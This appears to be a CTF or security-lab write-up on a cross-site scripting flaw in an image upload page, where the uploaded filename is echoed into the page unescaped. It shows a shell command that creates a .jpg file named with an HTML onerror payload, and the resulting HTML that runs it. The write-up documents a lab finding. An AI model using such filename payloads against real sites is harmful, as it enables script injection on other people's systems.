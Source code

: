 # BONUS XSS breach on filename image upload

While trying to exploit a security breach on the `http://IP/index.php?page=upload` we've found an XSS breach on the uploaded filename.

After testing a huge file size upload to make the server crash etc. We've found out that the server looks like only allowing the upload of `.jpg` files.

When everything goes well, the server stores the file using the same filename as sent and displays the created image path on the page.

Example after submitting a `filename.jpg` image:
```txt
/tmp/filename.jpg successfully uploaded.
```

Lets try out few things.

## The XSS exploit

First create your evil file

```shell
touch "<img src=a onerror=console.log(alert('XSS'))>.jpg"
```

Then upload it and voila.
The page reloads interpreting the filename as html, to finally execute the onerror attribute code, displaying an alert modal.

Results in:
```html
<pre>
    /tmp/
    <img src="a" onerror="console.log(alert('XSS'))">
    .jpg successfully uploaded.
</pre>
```